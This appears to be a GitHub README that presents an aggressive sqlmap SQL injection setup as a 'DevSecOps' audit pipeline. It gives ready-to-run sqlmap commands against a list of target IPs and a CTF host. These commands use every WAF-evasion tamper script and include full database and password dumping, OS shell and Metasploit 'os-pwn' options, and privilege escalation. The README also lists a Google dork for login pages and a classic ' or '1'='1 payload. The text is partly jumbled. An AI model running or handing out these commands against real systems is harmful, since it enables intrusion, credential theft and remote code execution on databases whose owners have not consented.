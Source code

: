 This project verify that your DataBases are under compliant with the actual DevSecOps MSB

Let’s audit Our Application with https://sqlmap.org {1.5.1.17#dev} 



[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program.


## 1. Install python 2.7

https://gist.github.com/4k4xs4pH1r3/2196035667b41107d903ebc5a771d956

#
## 2. Install sqlmap

       apt install sqlmap -y && cp -r /usr/share/sqlmap /usr/share/sqlmap_bck && rm -r /usr/share/sqlmap && git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git /usr/share/sqlmap && sqlmap --update && sqlmap --version
       
#       
## Generate IP addresses file of your applications (targets)

    cd /root && mkdir SA && cd SA && mkdir ad && nano ~/SA/ad/ad_ips

## Create the Pipeline CI/CD with metasploit

    nano /root/SA/ad/SA_sqli.sh
#      
    sudo apt install neofetch screenfetch -y
    neofetch
    screenfetch
    sqlmap -f -b -o -m /root/SA/ad/ad_ips -t /root/.sqlmap/output/sqlmap_scan -s -a --prefix="--%20', '%20%20', '-- ', ' '" --suffix="-- " --batch --crawl=13 --crawl-exclude="logout" --forms --randomize=yes --answers="keep testing=Y,optimize=Y,sitemap=Y,follow=Y,extending=N,skip further tests=N,exploit=Y" --cookie=jsessionid=12345 --dump-all --exclude-sysdbs --random-agent --threads=10 --risk=3 --level=5 --delay=1 --timeout=15 --retries=2  --dbs --dbms=mssql --os=Linux --count --hostname --current-user --current-db --passwords --binary-fields --tables --columns --schema --is-dba --users --privileges --roles --common-tables --common-columns --comments --shared-lib --parse-errors --drop-set-cookie --time-sec=17 --ignore-proxy --ignore-timeouts --randomize 3 --hpp --null-connection --invalid-bignum --invalid-logical --invalid-string --charset="0123456789abcdef" --encoding=GBK --technique BEUSTQ --hex --tamper=0eunion,apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,binary,bluecoat,chardoubleencode,charencode,charunicodeencode,charunicodeescape,commalesslimit,commalessmid,commentbeforeparentheses,concat2concatws,equaltolike,equaltorlike,escapequotes,greatest,halfversionedmorekeywords,hex2char,hexentities,htmlencode,if2case,ifnull2casewhenisnull,ifnull2ifisnull,informationschemacomment,least,lowercase,luanginx,misunion,modsecurityversioned,modsecurityzeroversioned,multiplespaces,ord2ascii,overlongutf8,overlongutf8more,percentage,plus2concat,plus2fnconcat,randomcase,randomcomments,schemasplit,scientific,sleep2getlock,sp_password,space2comment,space2dash,space2hash,space2morecomment,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,space2randomblank,substring2leftright,symboliclogical,unionalltounion,unmagicquotes,uppercase,varnish,versionedkeywords,versionedmorekeywords,xforwardedfor --os-shell --os-pwn --os-smbrelay --os-bof --priv-esc --reg-read --ignore-timeouts --udf-inject --where=DUMPWHERE --dump-format=SQLITE --msf-path /usr/bin --tmp-dir=/root/.sqlmap/history --beep --dependencies --unstable --alert=x -v 6
#

## Create the Pipeline CI/CD without metasploit

    nano /root/SA/ad/SA_sqli.sh
#      
    sudo apt install neofetch -y
    neofetch
    sudo sqlmap -f -b -o -m ~/SA/ad/ad_ips -t ~/.sqlmap/output/sqlmap_scan -s -a --prefix="--%20', '%20%20', '-- ', ' '" --suffix="-- " --batch --crawl=13 --crawl-exclude="logout" --forms --randomize=yes --answers="keep testing=Y,optimize=Y,sitemap=Y,follow=Y,extending=N,skip further tests=N,exploit=Y" --cookie=jsessionid=12345 --dump-all --exclude-sysdbs --random-agent --threads=10 --risk=3 --level=5 --delay=1 --timeout=15 --retries=2  --dbs --dbms=mssql --os=Linux --count --hostname --current-user --current-db --passwords --binary-fields --tables --columns --schema --is-dba --users --privileges --roles --common-tables --common-columns --comments --shared-lib --parse-errors --drop-set-cookie --time-sec=17 --ignore-proxy --ignore-timeouts --randomize 3 --hpp --null-connection --invalid-bignum --invalid-logical --invalid-string --charset="0123456789abcdef" --encoding=GBK --technique BEUSTQ --hex --tamper=0eunion,apostrophemask,apostrophenullencode,appendnullbyte,base64encode,between,binary,bluecoat,chardoubleencode,charencode,charunicodeencode,charunicodeescape,commalesslimit,commalessmid,commentbeforeparentheses,concat2concatws,equaltolike,equaltorlike,escapequotes,greatest,halfversionedmorekeywords,hex2char,hexentities,htmlencode,if2case,ifnull2casewhenisnull,ifnull2ifisnull,informationschemacomment,least,lowercase,luanginx,misunion,modsecurityversioned,modsecurityzeroversioned,multiplespaces,ord2ascii,overlongutf8,overlongutf8more,percentage,plus2concat,plus2fnconcat,randomcase,randomcomments,schemasplit,scientific,sleep2getlock,sp_password,space2comment,space2dash,space2hash,space2morecomment,space2morehash,space2mssqlblank,space2mssqlhash,space2mysqlblank,space2mysqldash,space2plus,space2randomblank,space2randomblank,substring2leftright,symboliclogical,unionalltounion,unmagicquotes,uppercase,varnish,versionedkeywords,versionedmorekeywords,xforwardedfor --os-shell --os-pwn --os-smbrelay --os-bof --priv-esc --reg-read --ignore-timeouts --udf-inject --where=DUMPWHERE --dump-format=SQLITE --tmp-dir=~/.sqlmap/history --beep --dependencies --unstable --alert=x -v 6

    sqlmap -u 'http://imagetok.htb:32531/' --level=5 --risk=3 --privileges --current-user --hostname --random-agent --current-db --dump --columns --schema --roles --comments --passwords --users --tables --is-dba --count -b --dbs --mobile --flush-session --beep --cleanup --fresh-queries --threads=10

       
## Start & Monitoring of the Pipeline CI/CD

       cd ~/SA/ad/ && chmod +x SA_sqli.sh && ./SA_sqli.sh
#       
       tail -f /root/.sqlmap/output/sqlmap_scan
               
## 3. Analize/Purge the Injections Results

of each host that you are looking for (CSV format) 
Include: Target URL; Place; Parameter; Technique(s) and Note(s) at

       cd
       cd /root/.sqlmap/output/

#
#
#
# Additional commands

    -p username --url="http://yourtarget.com//?post=1" --data "username=admin&password=pass"

    -D dbname -T tablename -C id -C username -C password

# Supported DBMSes are as follows:

Firebird, H2, HSQLDB, IBM DB2, Informix, Microsoft Access, Microsoft SQL Server, MySQL, Oracle, PostgreSQL, SAP MaxDB, SQLite, Sybase.
     
    --dbms=MySQL
    
    --no-cast 
    
    --no-escape 

    --charset 'ascii'

    --predict-output

    --skip-waf

    --eta

    --sqlmap-shell
    
    --sql-shell
    
    
    sqlmap.py -u website –dbs

    -D acuart –tables

    -D acuart -T users –columns

    -D acuart -T users -C name,email,phone -dump

    
    #
    #
    #
    $ curl --header 'Host: www.example.com' 'https://127.0.0.1/' -v -k
    
    :)


inurl:website.test/login.asp

' or '1'='1
